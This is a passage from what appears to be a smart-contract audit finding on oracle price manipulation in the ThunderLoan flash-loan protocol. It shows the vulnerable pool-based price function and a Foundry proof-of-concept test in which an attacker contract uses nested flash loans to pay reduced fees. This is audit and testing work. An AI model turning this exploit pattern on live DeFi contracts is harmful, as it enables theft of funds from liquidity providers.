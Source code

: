 ```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

**Proof of Concept:**

```javascript

 function testOracle() public {
     thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory poolFactory = new BuffMockPoolFactory(
            address(weth)
        );
        address tswapPool = poolFactory.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(poolFactory));

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);

        BuffMockTSwap(tswapPool).deposit(
            100e18,
            100e18,
            100e18,
            block.timestamp
        );
        vm.stopPrank();

        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);

        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("Normal Fee Cost: ", normalFeeCost);
        // 0.296147410319118389
        uint256 amountToBorrow = 50e18;
        MFlashLoan mFlashLoan = new MFlashLoan(
            address(tswapPool),
            address(thunderLoan),
            address(thunderLoan.getAssetFromToken(tokenA))
        );

        vm.startPrank(user);
        tokenA.mint(address(mFlashLoan), 100e18);
        thunderLoan.flashloan(address(mFlashLoan), tokenA, amountToBorrow, "");
        vm.stopPrank();
        uint256 attackFee = mFlashLoan.feeOne() + mFlashLoan.feeTwo();
        console2.log("Attack Fee: ", attackFee);
        assert(attackFee < normalFeeCost);
    }
```